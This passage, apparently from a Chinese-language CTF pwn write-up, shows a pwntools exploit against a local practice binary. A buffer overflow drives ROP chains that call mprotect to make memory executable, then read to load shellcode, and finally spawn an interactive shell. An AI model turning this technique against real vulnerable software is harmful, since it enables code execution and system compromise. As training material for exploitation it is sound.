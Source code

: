 ![image-20220317174918492](自救指南.assets/image-20220317174918492.png)

可以看到这段的权限已经改过来了, 然后就可以构造read的rop链, 注入shellcode跳转了

#### Exploit

```python
from pwn import*
context(os='linux', arch='amd64')

o = process('./mprotect_shellcode')
elf = ELF('./mprotect_shellcode')

mprotect_addr = elf.sym['mprotect']
read_addr = elf.sym['read']
main = elf.sym['main']
pop_rdi = 0x00000000004006a6
pop_rsi = 0x000000000040ffa3
pop_rdx = 0x0000000000448be5

payload = 'a'*0x18 # 覆盖buf和rbp
payload += p64(pop_rdi) + p64(0x6bc000) # 第一个参数, heap区起始地址
payload += p64(pop_rsi) + p64(0x1000)	# 第二个参数, len
payload += p64(pop_rdx) + p64(7)		# 第三个参数, 权限可读可写可执行
payload += p64(mprotect_addr) + p64(main)	# 执行mprotect, 并返回main函数
o.sendline(payload)


payload = 'a'*0x18	# 覆盖buf和rbp
payload += p64(pop_rdi) + p64(0)		# 第一个参数, 标准输入
payload += p64(pop_rsi) + p64(0x6bc000)	# 第二个参数, 写入地址
payload += p64(pop_rdx) + p64(0x100)	# 第三个参数, 写入的字节数
payload += p64(read_addr) + p64(0x6bc000)	# 执行read写入shellcode后跳转去执行
o.sendline(payload)

shellc = asm(shellcraft.sh())
o.sendline(shellc)	# 写入shellcode

o.interactive()
```

